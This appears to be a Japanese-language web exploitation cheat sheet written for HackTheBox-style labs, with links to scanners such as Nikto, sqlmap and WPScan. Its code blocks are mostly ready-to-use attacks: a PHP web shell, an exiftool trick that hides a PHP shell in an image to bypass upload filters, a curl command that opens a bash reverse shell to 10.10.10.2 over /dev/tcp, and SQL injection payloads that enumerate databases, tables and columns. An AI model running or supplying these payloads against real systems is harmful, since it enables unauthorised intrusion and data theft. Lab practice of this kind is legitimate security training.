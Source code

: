 参考：[sullo/nikto: Nikto web server scanner](https://github.com/sullo/nikto)

参考：[OWASP ZAP – Getting Started](https://www.zaproxy.org/getting-started/)

参考：[sqlmapproject/sqlmap: Automatic SQL injection and database takeover tool](https://github.com/sqlmapproject/sqlmap)

参考：[Second Order SQL injection / UNION injection](/hackthebox-linux-validation#second-order-sql-injection)

参考：[WPScanを使ってWordpressをスキャンする - Qiita](https://qiita.com/koujimatsuda11/items/d49e8642dea1a1b0d067)

## Webエクスプロイトまとめ

### Web Shellを使う

``` bash
# PHPを埋め込める場合
<?php SYSTEM($_REQUEST['cmd']); ?>

# exiftoolで埋め込む場合
exiftool -documentname='<?php system($_GET['cmd']); ?>' test.jpg
mv test.jpg test.php.jpg

# Shellを呼び出す
curl -G --data-urlencode "cmd=bash -c '/bin/bash -l > /dev/tcp/10.10.10.2/4444 0<&1 2>&1'" http://target.htb/test.php.jpg | cat
```

参考：[File Upload Filter Bypass: exiftoolを使って画像ファイルにphpスクリプトを埋め込む](/hackthebox-linux-networked#exiftool%E3%82%92%E4%BD%BF%E3%81%A3%E3%81%A6%E7%94%BB%E5%83%8F%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%81%ABphp%E3%82%B9%E3%82%AF%E3%83%AA%E3%83%97%E3%83%88%E3%82%92%E5%9F%8B%E3%82%81%E8%BE%BC%E3%82%80)

### SQL injection

``` sql
-- SQL injection scan
-- python3 sqlmap.py -u "http://targethost.htb/" --data "username=test&country=Ukraine"

-- DBのユーザ名を表示
select user()

-- DB名
select database()

-- DS列挙
select schema_name from information_schema.schemata

-- テーブル取得
select table_name from information_schema.tables where table_schema = '<table name>'

-- テーブル情報取得
select column_name from information_schema.columns where table_name = '<table name>'

-- テーブル情報特定(複文)
;SELECT null,tablename,null,null,null,null,null FROM pg_tables WHERE tablename LIKE '%ar%'--
;SELECT null,tablename,null,null,null,null,null FROM pg_tables LIMIT 1 OFFSET 6;--

-- カラム特定（複文）
;SELECT null,column_name,null,null,null,null,null FROM information_schema.columns WHERE table_name='news_subscriber' AND column_name LIKE '%ex%'　--
;SELECT null,column_name,null,null,null,null,null FROM information_schema.columns LIMIT 1 OFFSET 6;--

-- ユーザの権限参照
```